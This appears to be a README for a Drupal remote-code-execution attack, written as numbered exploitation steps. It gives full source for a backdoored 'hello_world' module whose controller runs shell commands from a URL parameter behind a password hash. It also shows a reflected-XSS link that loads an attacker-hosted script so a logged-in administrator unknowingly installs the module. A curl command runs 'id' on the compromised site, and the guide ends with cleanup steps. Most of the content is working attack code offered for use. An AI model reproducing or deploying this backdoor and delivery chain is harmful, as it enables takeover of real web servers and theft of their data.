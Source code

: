 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `HelloWorldController.php`

    (`hello_world.info.yml`)

    ```
    name: hello_world
    type: module
    description: 'Hello World custom module'
    package: custom
    version: 1.0
    core_version_requirement: ^10
    ```

    (`hello_world.routing.yml`)

    ```
    hello_world.hellomsg:
      path: '/hello-world'
      defaults:
        _controller: 'Drupal\hello_world\Controller\HelloWorldController::message'
        _title: 'Hello World!!'
      requirements:
        _permission: 'access content'
    ```

    (`src/Controller/HelloWorldController.php`)

    ```
    <?php

    namespace Drupal\hello_world\Controller;

    class HelloWorldController {
      public function message() {
        if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
        return [
          '#markup' => 'Hello World message from custom module'
        ];
      }
    }
    ```

2. [create backdoored CMS module] create Drupal module

    ```
    tar cvf hello_world.tar.gz *
    ```

3. [setup exploit] change payload variable values (`installModuleDrupal.js`)

    `exploitURL` - URL of Drupal module (containing backdoor) to be installed on target site

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/installModuleDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.13` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.17/hello-world?pass=test&cmd=id" | head -n 1
    ```

8. [uninstall module] uninstall module via GUI

    *Drupal ➔ Extend ➔ [tab] Uninstall ➔ (filter by name) hello ➔ (mark checkbox) Hello World ➔ Uninstall ➔ Uninstall*

9. [uninstall module] remove module from filesystem

    ```
    sudo su
    cd /var/www/html/drupal/modules
    rm -rf hello_world
    ```

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

![Image](screenshots/Drupal_-_install_module_-_1-1.png)
